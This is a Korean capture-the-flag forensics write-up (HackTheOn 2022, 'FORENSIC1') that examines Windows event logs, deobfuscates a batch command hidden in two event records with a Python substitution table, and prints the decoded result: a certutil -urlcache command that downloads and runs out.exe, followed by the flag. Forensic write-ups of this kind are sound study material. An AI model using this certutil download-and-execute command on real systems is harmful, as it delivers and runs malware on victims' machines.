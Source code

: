 
### FORENSIC1 - 특별한 이벤트

![events-log](/img/2022-hacktheon/forensic1-events.png)

gigasheet 혹은 윈도우 내장의 evtx viewer를 이용하여 기록된 이벤트를 확인하면 EVENTID가 비정상적이라는 사실을 확인할 수 있다. 여기서는 어떠한 정보를 얻을 수 없을 것이므로, 다른 정보를 확인한다.

이때 EVENTRECORDID=832, EVENTRECORDID=833인 두 이벤트의 EVENTDATA/COMMANDLINE 항목을 살펴보면 난독화된 batch command를 확인할 수 있다. 이를 파이썬으로 파싱하여 대입하면 아래의 정보를 확인할 수 있다.

[파싱된 변수의 값 대입 코드의 일부(Python)]
```
lllllIIllI="0"
IlIllIIIll="1"
lIIIllIlll="2"
lIlIlIIIll="3"
IlllllllII="4"
IlIlIlIIII="5"
llIllIIIlI="6"
lllIIIIIll="7"
lIIlIllIll="8"
IIllllIlll="9"
lllIIlIlII=":"
lllIIlllII=";"
lllIIlllII="="
lllllIlIII="?"
```
출력으로 다음을 얻는다.

```
certutil -urlcache -f httplddyou.know.i.don.t.l1k3.m4lw4r3.rea.lyd out.exe 
 out.exe 
 apollob{a95ac71463fc529219a69b0d25cf4a66021d10023f7c8c9fe155334a1a4bb4774bd86b69cf482ddf7272e7669bc9b182e4de0ec0968d418dccce8fbb4dfeaa5dbdd42fab526be0cd357d}
```

---